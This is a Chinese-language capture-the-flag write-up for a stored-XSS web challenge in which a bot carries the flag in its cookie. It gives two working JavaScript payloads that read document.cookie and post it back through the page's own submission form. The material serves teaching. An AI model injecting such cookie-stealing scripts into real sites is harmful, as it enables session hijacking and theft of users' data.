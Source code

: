 # 题解分享频道

- 作者：13m0n4de
- 参考：-
- 难度：Normal
- 分类：Web
- 镜像：[svuctf-winter-2023/writeup_channel](https://ghcr.io/svuctf/svuctf-winter-2023/writeup_channel:latest)
- 端口：5000

## 题目描述

**请勿分享自己的链接，或点击其他人分享的链接，以免造成安全问题**

> Hint: 得到的 Flag 字符串可能被 URL 编码过，注意解码\\ Hint：题目容器不出网

## 题目解析

灵感来源于 [USTC-Hackergame-2021 花絮中的钓鱼题解](https://github.com/USTC-Hackergame/hackergame2021-writeups/blob/master/behind-the-scenes/README.md#%E5%85%B6%E4%BB%96)，页面也仿制了。

可能同学们第一次遇到 XSS 的题，有点陌生。这类题目为了模拟被攻击者访问网页，会使用脚本来模拟浏览器打开网页，这个脚本可以称为 Bot ，其中大多 Bot 会将 Flag 设置在 Cookie 中。（XSS 盗 Cookie ，经典的用法）

也有可能有的题目是手动触发 Bot 访问页面，看题目如何设置了。

此题在最开头就说明 `每过一段时间就来这里更新一下` 所以可以推测有个 Bot 带着 Flag 每隔一段时间就访问一次这个网页。

这是道非常平常的储存型 XSS ，只不过不出网。

没有任何过滤，投稿 `<script>alert('xss')</script>` 会直接弹窗。

![弹窗](./writeup/%E5%BC%B9%E7%AA%97.png)

这段 JavaScript 代码一直被留在页面上。

按照平常的 XSS 利用，可以将 Cookie 发送到自己的服务器，或者直接使用 XSS 平台，但在这题行不通，因为容器没法访问公网服务。

想要把内容带出来，可以考虑直接提交到网页上，利用提交投稿功能。

这是使用 `fetch` 发送 POST 请求的方式：

```html
<script>
    var form_data = new FormData();
    form_data.append("message", document.cookie);
    fetch("/", {
    	"method": "POST",
    	"body": form_data,
    });
</script>
```

这是填充表单并提交的方式：

```html
<script>
    document.addEventListener('DOMContentLoaded', function() {
        var form = document.querySelector('form');
        var messageInput = form.elements["message"];
        messageInput.value = document.cookie;
        form.submit();
    });
</script>
```

需要等待页面加载完毕才能找到 Form 表单。

这种方式注意的是，提交之后会刷新页面，刷新了又会提交，会出现一直刷新的状况。

Bot 是不受影响的，它在固定的几秒中后退出，网页上并不会无限出来 Flag 。

我们访问的时候，手动停止页面的刷新就可以了。

![flag](./writeup/flag.png)

Flag 被 URL 编码了。

**注意，如果你已经写入了弹窗代码，可能会导致 Bot 卡住不执行剩下的 JS 代码，需要重新创建实例**

（某位选手前后开了十多个实例）
